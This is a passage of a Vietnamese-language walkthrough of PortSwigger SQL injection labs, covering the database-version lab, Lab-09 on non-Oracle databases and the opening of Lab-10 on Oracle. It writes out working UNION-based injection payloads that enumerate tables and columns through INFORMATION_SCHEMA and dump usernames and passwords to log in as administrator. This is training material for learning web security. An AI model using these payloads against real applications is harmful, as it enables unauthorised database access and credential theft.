 ``` ' UNION SELECT null, 'a'-- ```
> This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string.
- Cách giải:
- Tương tự như bài trước, ở lab này mình sẽ phải lấy database version của MySQL và Microsoft.
- Vì vậy truy vấn sẽ khác với Oracle.
- Trong MySQL Comment là: ```-- comment``` tức là sau ```--``` phải có 1 khoảng trắng.
Mà nếu để khoảng trắng ở cuối trên url thì nó sẽ bị bỏ mất nên sau dấu cách đó mình phải thêm 1 ký tự gì cũng được.
- Đầu tiên mình sẽ xác định số cột:
```' UNION SELECT null, null-- a```

> ![](WU_Portswigger_files/21.png)
- Sau đó đựa vào Database version trong [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) => thay null thành @@version để lấy database version là hoàn thành bài lab.
```' UNION SELECT @@version, null-- a```

> ![](WU_Portswigger_files/22.png)

# Lab-09: SQL injection attack, listing the database contents on non-Oracle databases
> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user.
### Cách giải:
- Đầu tiên kiểm tra số cột => 2 cột 
```
' UNION SELECT null, null--
```
- Tiếp theo mình phải đi tìm tên của table.
- Trong sql database luôn có 1 bảng là INFORMATION_SCHEMA ( trừ oracle ) chứa các thông tin của cơ sở dữ liệu
- Dựa vào đó mình tìm ra các bảng trong database:
``` ' UNION SELECT TABLE_NAME, NULL FROM INFORMATION_SCHEMA.TABLES-- -```
> ![](WU_Portswigger_files/23.png)

- Sau khi đọc tài liệu về [Schemas](https://www.postgresql.org/docs/8.1/ddl-schemas.html#DDL-SCHEMAS-PUBLIC) ở phần 5.7.2. The Public Schema thì mình đã thử truy vấn table "public"
> ![](WU_Portswigger_files/24.png)

```'UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema='public'--```
> ![](WU_Portswigger_files/25.png)
- Tìm được 2 table khác và thứ mình cần là username và password nên mình tiếp túc tìm cột với bảng ```users_yemgnv```:
``` 'UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users_yemgnv'--```
> ![](WU_Portswigger_files/26.png)
- Tiếp túc với 2 cột này và tìm được account:
``` 'UNION SELECT password_djkvqr, username_ztbkvp FROM users_yemgnv--```
> ![](WU_Portswigger_files/27.png)
- Đăng nhập để hoàn thành lab.
# Lab-10: SQL injection attack, listing the database contents on Oracle
> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.
### Cách giải:
- Đề bài lab này tương tự lab-08, tuy nhiên database lại là Oracle.
```